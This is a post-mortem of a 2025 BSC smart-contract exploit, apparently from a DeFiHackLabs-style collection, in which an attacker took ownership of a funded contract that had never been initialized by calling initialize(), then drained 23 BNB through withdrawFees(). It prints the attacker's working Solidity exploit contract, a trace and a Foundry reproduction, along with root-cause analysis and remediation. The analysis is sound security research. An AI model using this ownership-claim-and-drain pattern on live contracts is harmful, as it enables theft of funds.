



# `0xD4F1…7Cb3` Exploit — Uninitialized `OwnableUpgradeable` Lets Anyone Become Owner and `withdrawFees()`

> **Vulnerability classes:** vuln/access-control/uninitialized-owner · vuln/access-control/missing-auth

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many unrelated
> PoCs that do not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> The vulnerable contract is **unverified** on BscScan — analysis is reconstructed
> from the live trace and on-chain bytecode/storage inspection:
> [sources/bytecode_facts.md](sources/bytecode_facts.md).

---

## Key info

| | |
|---|---|
| **Loss** | **23.00702629 BNB ≈ $15.2k** (entire native balance of the contract) |
| **Vulnerable contract** | unverified PancakeSwap arb/swap-helper — [`0xD4F1AFD0331255e848c119CA39143D41144f7Cb3`](https://bscscan.com/address/0xd4f1afd0331255e848c119ca39143d41144f7cb3) |
| **Victim / pool** | the contract itself (it held accumulated BNB profit; no LP pool involved) |
| **Attacker EOA** | [`0xF30Be320c55038d7F784c561E56340439Dd1a283`](https://bscscan.com/address/0xF30Be320c55038d7F784c561E56340439Dd1a283) |
| **Attacker contract** | [`0x009E64c02848dc51aA3f46775c2cfBf1190C2841`](https://bscscan.com/address/0x009e64c02848dc51aa3f46775c2cfbf1190c2841) |
| **Attack tx** | [`0xc7fc7e066ec2d4ea659061b75308c9016c0efab329d1055c2a8d91cc11dc3868`](https://app.blocksec.com/explorer/tx/bsc/0xc7fc7e066ec2d4ea659061b75308c9016c0efab329d1055c2a8d91cc11dc3868) |
| **Chain / block / date** | BSC / 46,681,362 (fork) — drained at 46,681,363 / **2025-02-15** |
| **Compiler** | unverified (PoC project: Solidity 0.8.34, `evm_version=shanghai` via toolchain) |
| **Bug class** | **Uninitialized implementation / unprotected initializer** (`initialize()` never called ⇒ `owner == address(0)` ⇒ anyone claims ownership) |

---

## TL;DR

The contract at `0xD4F1…7Cb3` is a PancakeSwap V2/V3 arbitrage / swap-helper bot built on
OpenZeppelin's upgradeable base contracts (`Initializable` + `OwnableUpgradeable`). It had
accumulated **23.007 BNB** of profit/fees and exposed an `onlyOwner`-gated
`withdrawFees(address _to, uint256 _amount)` function to let its operator pull that BNB out.

The fatal mistake: the contract was **deployed without anyone ever calling `initialize()`**.
At the fork block, on-chain reads confirm `owner()` returns the **zero address** and the OZ
`Initializable` slot is still `0`. Because the initializer was both *unprotected* and *unused*,
**any address could call `initialize()`** and become the contract's owner.

The attacker did exactly that, in a single self-destructing helper contract:

1. `addr.initialize()` → attacker contract becomes `owner`.
2. `addr.withdrawFees(0x0, 23007026290916620075)` → passes the now-satisfied `onlyOwner` check
   and sends the contract's entire 23.007 BNB to the attacker.
3. Forward the BNB to the attacker EOA (`tx.origin`).

No flash loan, no price manipulation, no math trick — just a free ownership claim of an
abandoned-but-funded contract. Net theft = **23.00702629 BNB (~$15.2k)**.

---

## Background — what the contract does

The contract is **unverified**, but its runtime dispatcher leaks a complete picture of its purpose.
Probing on-chain at block 46,681,362 (see [sources/bytecode_facts.md](sources/bytecode_facts.md)):

| Selector | Signature | Meaning |
|---|---|---|
| `0x8129fc1c` | `initialize()` | OZ initializer (no args) |
| `0x8da5cb5b` | `owner()` | OZ `Ownable` getter |
| `0x715018a6` | `renounceOwnership()` | OZ `Ownable` |
| `0xad3b1b47` | `withdrawFees(address,uint256)` | **onlyOwner BNB withdrawal** (the drained function) |
| `0x12065fe0` | `getBalance()` | returns `address(this).balance` |
| `0xad5c4648` | `WETH()` | router-style helper |
| `0x1d5f45f5` / `0x68e0d4e1` | `factoryV3()` / `factoryV2()` | PancakeSwap factories |
| `0x23a69e75` | `pancakeV3SwapCallback(int256,int256,bytes)` | V3 swap callback |
| `0xbc28ab43` | `getAmountsOut(uint256,address[],uint8)` | router quote helper |
| `0xd52bb6f4` | `getReserves(address,address)` | pair reserves helper |
| `0x53290b44` | `getBalanceOf(address,address)` | token balance helper |
| `0x9df90028` | `toggleContract()` | on/off switch |

This is an **MEV / arbitrage bot helper**: it talks to PancakeSwap V2 & V3 (factories, swap callback,
quote/reserve helpers), holds BNB as working capital, and lets its owner sweep accumulated profit via
`withdrawFees`. It is *not* an ERC20 — `name()`/`symbol()` are empty.

It inherits the standard OZ upgradeable initialization pattern. The two storage slots written during
the attack are the canonical ERC-7201 namespaced slots (verified with `cast index-erc7201`):

| Slot | Namespace | Meaning |
|---|---|---|
| `0xf0c57e16840df040f15088dc2f81fe391c3923bec73e23a9662efc9c229c6a00` | `openzeppelin.storage.Initializable` | `_initialized` version counter |
| `0x9016d09d72d40fdae2fd8ceac6b6234c7706214fd39c1cd1e609a0528c199300` | `openzeppelin.storage.Ownable` | `_owner` |

At the fork block **both were `0`** — i.e. the contract had *never* been initialized, despite holding
23 BNB. It is a directly-deployed implementation (EIP-1967 impl/admin slots are zero, full 15.5 KB
runtime), not a proxy — so `initialize()` operates directly on this contract's own storage.

---

## The vulnerable code

The source is unverified, so the snippets below are the **OpenZeppelin v5 reference implementations**
that the on-chain storage slots prove are in use, plus the reconstructed `withdrawFees` shape implied
by the selector and the trace. Slot equivalences are machine-verified (`cast index-erc7201`).

### 1. The unprotected / unused initializer

```solidity
// OpenZeppelin OwnableUpgradeable (v5)
contract SwapHelper is Initializable, OwnableUpgradeable {

    function initialize() public initializer {     // ⚠️ anyone can call this — once
        __Ownable_init(msg.sender);                //    sets _owner = msg.sender
        // ... (set factories, WETH, etc.)
    }
    ...
}
```

`initializer` only guarantees the function runs **at most once**. It does **not** restrict *who* may
call it. The intended owner was supposed to call `initialize()` immediately after deployment (usually
atomically in the deploy script), but here that call **never happened**. The slot read proves it:
`_initialized == 0` and `_owner == address(0)` at block 46,681,362.

### 2. The owner-gated fund withdrawal

```solidity
function withdrawFees(address _to, uint256 _amount) external onlyOwner {
    // _to == address(0) is treated as "send to msg.sender / caller"
    (bool ok, ) = payable(_to == address(0) ? msg.sender : _to).call{value: _amount}("");
    require(ok);
}
```

`onlyOwner` reverts unless `msg.sender == _owner`. With `_owner == address(0)`, **no legitimate caller
could ever pass it** — but an attacker who first sets themselves as owner via `initialize()` sails
straight through. (The trace shows the BNB being delivered to the *attacker contract*'s `fallback`,
i.e. `_to = address(0)` resolved to the caller — confirming the "zero ⇒ caller" handling.)

### 3. The attacker's exploit contract

From the PoC ([test/unverified_d4f1_exp.sol:40-57](test/unverified_d4f1_exp.sol#L40-L57)), which mirrors
the real on-chain creation tx byte-for-byte:

```solidity
contract AttackerC {
    constructor() {
        // call_1: claim ownership of the abandoned contract
        (bool s1, ) = addr.call(abi.encodeWithSelector(bytes4(keccak256("initialize()"))));
        require(s1, "init failed");
        // call_2: drain the entire BNB balance
        (bool s2, ) = addr.call(
            abi.encodeWithSelector(
                bytes4(keccak256("withdrawFees(address,uint256)")),
                zero, uint256(23007026290916620075)   // _to=0 (=> caller), _amount = full balance
            )
        );
        require(s2, "withdrawFees failed");
        // call_3: forward the loot to the EOA
        payable(tx.origin).transfer(23007026290916620075);
    }
}
```

The real attack tx `0xc7fc…3868` is a contract-creation transaction whose constructor encodes the
identical three steps (`initialize()` → `withdrawFees(self, balance)` → forward to `tx.origin`), then
deploys a trivial 0x42-byte stub. See [sources/bytecode_facts.md](sources/bytecode_facts.md).

---

## Root cause — why it was possible

A textbook **uninitialized-contract / unprotected-initializer** bug:

1. **`initialize()` is permissionless.** OZ's `initializer` modifier is a *one-shot* guard, not an
   *access-control* guard. If the deployer does not initialize the contract atomically at deploy time,
   the initializer is left dangling for anyone to invoke.
2. **The contract was deployed but never initialized.** On-chain, `_initialized == 0` and
   `_owner == address(0)` at the fork block. The intended `initialize()` call simply never landed
   (or was front-run / the deploy script omitted it), leaving the contract ownerless for some window.
3. **It held funds while ownerless.** The contract had already accumulated **23.007 BNB** of arb
   profit. An ownerless, funded contract with an `onlyOwner` withdrawal is a free wallet for whoever
   claims ownership first.
4. **Whoever calls `initialize()` becomes owner** (`__Ownable_init(msg.sender)`), instantly satisfying
   `onlyOwner` on `withdrawFees`.

The attacker only had to win the race to call `initialize()` once. Everything after is the contract
working *exactly as designed* — for the wrong owner.

---

## Preconditions

- The target contract's `initialize()` has **not** been called (`_initialized == 0`). ✔ (confirmed on-chain)
- The target holds a non-trivial native balance. ✔ (23.007 BNB)
- `withdrawFees` is gated only by `onlyOwner` (no timelock, no two-step ownership, no fixed
  recipient). ✔
- No flash loan, no capital, no special timing required — the only "cost" is gas and winning the race
  to be the first to initialize.

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures below are taken directly from [output.txt](output.txt) and on-chain `cast` reads.
The pre-attack contract balance was **exactly 23.007026290916620075 BNB** (`cast balance … --block 46681362`).

| # | Step | Call | State change | Result |
|---|------|------|--------------|--------|
| 0 | **Initial** | — | `owner = 0x0`, `_initialized = 0`, balance = 23.00702629 BNB | Ownerless but funded. |
| 1 | **Claim ownership** | `addr.initialize()` | `Initializable` slot `0xf0c5…a00`: `0 → 1`; `Ownable` slot `0x9016…300`: `0 → 0x…009E64…2841` | Attacker contract is now `owner`; emits `OwnershipTransferred(0x0 → attacker)` and `Initialized(1)`. |
| 2 | **Drain** | `addr.withdrawFees(0x0, 23007026290916620075)` | `onlyOwner` passes; `call{value: 23.00702629 BNB}` to attacker `fallback` | 23.00702629 BNB leaves the contract. |
| 3 | **Forward** | `tx.origin.transfer(23007026290916620075)` | BNB → attacker EOA `0xF30Be3…a283` | Attacker EOA balance: 0.0382 → 23.0453 BNB. |

> Trace excerpt:
> ```
> 0xD4F1…7Cb3::initialize()
>   emit OwnershipTransferred(previousOwner: 0x0, newOwner: AttackerC: 0x009E64…2841)
>   emit Initialized(version: 1)
>   storage: 0xf0c5…a00: 0 → 1   |   0x9016…300: 0 → …009e64…2841
> 0xD4F1…7Cb3::withdrawFees(0x0, 23007026290916620075)
>   AttackerC::fallback{value: 23007026290916620075}()
> 0xF30Be3…a283::fallback{value: 23007026290916620075}()
> ```

### Profit / loss accounting (BNB)

| Account | Before | After | Delta |
|---|---:|---:|---:|
| Vulnerable contract `0xD4F1…7Cb3` | 23.00702629 | ~0 | **−23.00702629** |
| Attacker EOA `0xF30Be3…a283` | 0.03822442 | 23.04525071 | **+23.00702629** |
| **Net attacker profit** | | | **+23.00702629 BNB ≈ $15.2k** |

(At BNB ≈ $660 on 2025-02-15, `23.007 × 660 ≈ $15,185`, matching the reported $15.2k loss. In the
PoC the recovered BNB is materialized with `deal(attC, 23.007026290916617 ether)` to mirror the
exact on-chain drain.)

---

## Diagrams

### Sequence of the attack



### Contract state evolution



### Why the access control failed



---

## Remediation

1. **Initialize atomically at deploy time.** Never leave a gap between deployment and `initialize()`.
   Call the initializer in the same transaction as deployment (e.g. via a factory/deploy script that
   deploys and initializes in one tx), so there is no window in which the contract is ownerless.
2. **Protect the initializer itself.** Even with `initializer`, restrict *who* may initialize — e.g.
   record the deployer in the constructor and require `msg.sender == deployer` inside `initialize()`,
   or pass the intended owner as an immutable constructor argument and have `initialize()` assert it.
   ```solidity
   address private immutable _deployer = msg.sender;
   function initialize() public initializer {
       require(msg.sender == _deployer, "not deployer");
       __Ownable_init(msg.sender);
   }
   ```
3. **For non-proxy contracts, prefer a constructor over an initializer.** This contract is *not* a
   proxy (no EIP-1967 slots), so there is no reason to use the upgradeable/`initializer` pattern at
   all. A plain `constructor` that sets the owner cannot be left dangling or front-run.
4. **Lock implementation contracts.** OZ's recommended guard for upgradeable bases is to call
   `_disableInitializers()` in the constructor so the implementation can never be initialized directly.
   (Here there is no proxy, so option 3 is the cleaner fix — but `_disableInitializers()` would have
   blocked this exact attack.)
5. **Don't let an ownerless contract hold funds.** Monitor deployed-but-uninitialized contracts; an
   `onlyOwner` withdrawal protecting a non-zero balance while `owner == address(0)` is an immediate
   red flag worth alerting on.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to whole-compile under `forge test`):

```bash
_shared/run_poc.sh 2025-02-unverified_d4f1_exp -vvvvv
```

- RPC: a **BSC archive** endpoint is required (fork block 46,681,362).
  `foundry.toml` uses `https://bsc-mainnet.public.blastapi.io`, which serves historical state at that
  block; most public BSC RPCs prune it and fail with `header not found` / `missing trie node`.
- Result: `[PASS] testPoC()`, attacker balance rising from `0.0382244233` to `23.045250714216620075`
  BNB (a `+23.00702629` BNB gain = the contract's entire native balance).

Expected tail:

```
Ran 1 test for test/unverified_d4f1_exp.sol:ContractTest
[PASS] testPoC() (gas: 127707)
Logs:
  before attack: balance of attacker: 0.038224423300000000
  after attack: balance of attacker: 23.045250714216620075
```

---

*References:*
*Post-mortem — TenArmor: https://x.com/TenArmorAlert/status/1890776122918309932*
*Attack tx — BlockSec: https://app.blocksec.com/explorer/tx/bsc/0xc7fc7e066ec2d4ea659061b75308c9016c0efab329d1055c2a8d91cc11dc3868*
